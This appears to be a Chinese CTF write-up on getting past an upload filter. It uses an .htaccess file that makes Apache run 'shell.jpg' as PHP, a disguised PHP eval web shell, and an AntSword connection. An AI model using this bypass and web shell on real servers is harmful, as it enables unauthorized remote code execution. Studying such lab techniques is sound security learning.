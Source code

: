 这个b让我觉得有必要记录一下。
## 1
当我按照之前套路走后，回显`文件名不能含ph`，于是又上传了png文件，结果来句`太露骨`。。。
不过尝试jpg文件成功上传。

有爆破或者404报错界面（server类型apache），然后可用.htaccess配置文件，允许服务器将`shell.jpg`解析为php。
上传`.htaccess`文件内容如下

```htaccess
<FilesMatch "shell.jpg">

 SetHandler application/x-httpd-php

</FilesMatch>

```
记得把`Content-Type`修改为`image/jpeg`。
上传后显示
`/var/www/html/upload/2b4099bc206448afdc0ffdf443242c6c/.htaccess succesfully uploaded!`

再上传`shell.jpg`，其内容是(对php文件有过滤所以上script)
```javascript
GIF89a//可有可无
<script language='php'>eval($_POST['shell'])</script>
```
我们再用AntSword连接：
`https://xxx/upload/2b4099bc206448afdc0ffdf443242c6c/shell.jpg`，接下来same就可以得到flag。

---
## 2
参考：
<a href=https://www.cnblogs.com/PsgQ/p/14573972.html#/c/subject/p/14573972.html>PS5</a>

<a href=https://zhuanlan.zhihu.com/p/370029419>Content-Type</a>比较重要的一句就是`Content-Type表示内容类型和字符编码。内容类型也叫做MIME类型。是Internet Media Type，互联网媒体类型。在互联网上传输的数据有不同的数据类型，HTTP在传输数据对象时会为他们打上称为MIME的数据格式标签，用于区分数据类型。`绕过过滤机制就是靠这个。

<a href=https://www.cnblogs.com/engeng/articles/5948089.html>.htaccess是什么</a>在文件上传里面的作用`MIME类型配置以及访问权限控制等`